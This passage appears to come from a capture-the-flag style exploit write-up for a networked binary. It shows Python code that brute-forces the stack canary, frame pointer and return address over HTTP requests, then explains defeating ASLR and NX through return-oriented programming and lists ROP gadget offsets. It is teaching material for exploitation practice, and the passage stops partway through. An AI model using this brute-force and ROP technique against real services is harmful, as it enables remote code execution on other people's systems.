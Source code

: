 ```py

# Leak the stack canary and frame pointer.
for i in range(16):
    for b in range(256):
        c = bytes([ b ])
        data = b'GET /' + junk + stack + c
        if request(host, port, data):
            print(f'Stack[{i}] = {b:02x}')
            stack += c
            break
    else:
        print(f'Failed to leak the stack')
        sys.exit(1)

# Least-significant byte of the correct return address
stack += b'\xa1'

# Leak the return address.
for i in range(17, 24):
    for b in range(256):
        c = bytes([ b ])
        data = b'GET /' + junk + stack + c
        if request(host, port, data):
            print(f'Stack[{i}] = {b:02x}')
            stack += c
            break
    else:
        print(f'Failed to leak the stack')
        sys.exit(1)

print()

chk = int.from_bytes(stack[ 0: 8], byteorder='little')
rbp = int.from_bytes(stack[ 8:16], byteorder='little')
rip = int.from_bytes(stack[16:24], byteorder='little')
```

Once we have leaked the stack canary, frame pointer, and return address, the next step is to bypass
ASLR. We can already determine where the image and stack are loaded in memory, but we still don't
know where Libc is. We can figure this out by leaking addresses from the global offset table (GOT),
but to do this we're going to have to execute some shellcode. Recall, though, that the binary has
the NX bit set, so the stack will not be executable. We, therefore, have to use return-oriented
programming (ROP) to execute multiple short sequences of instructions that will progressively do
what we want.

We can use [ropper](https://github.com/sashs/Ropper) to easily find potentially useful gadgets in
the binary. The ones I used in my exploit are:

```py
pop_rsp_gadget = txt_base + 0x0000097d  # pop rsp; pop r13; pop r14; pop r15; ret;
pop_rdi_gadget = txt_base + 0x00000983  # pop rdi; ret;
pop_rsi_gadget = txt_base + 0x00000981  # pop rsi; pop r15; ret;
pop_rdx_gadget = txt_base + 0x00000414  # pop rdx; ret;
ret_gadget     = txt_base + 0x0000001a  # ret;
```
